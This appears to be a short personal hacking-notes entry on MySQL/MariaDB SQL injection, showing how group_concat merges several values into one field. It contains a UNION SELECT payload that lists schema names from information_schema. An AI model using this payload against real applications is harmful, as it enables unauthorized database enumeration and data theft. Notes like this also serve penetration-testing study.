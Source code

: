 # mariadb mysql SQLi concat multiple values into one field rows
`group_concat( query )`
`... union select 1,2,group_concat(schema_name) from information_schema.schemata`

` zet/20221003150986/README.md `

# Related

- [20221003150987](/zet/20221003150987/README.md) mariadb mysql SQLi
- ~/kb/hacking/methodology/sqli-manual-mysql-payloads.md

Tags:

    #hacking #sqli 
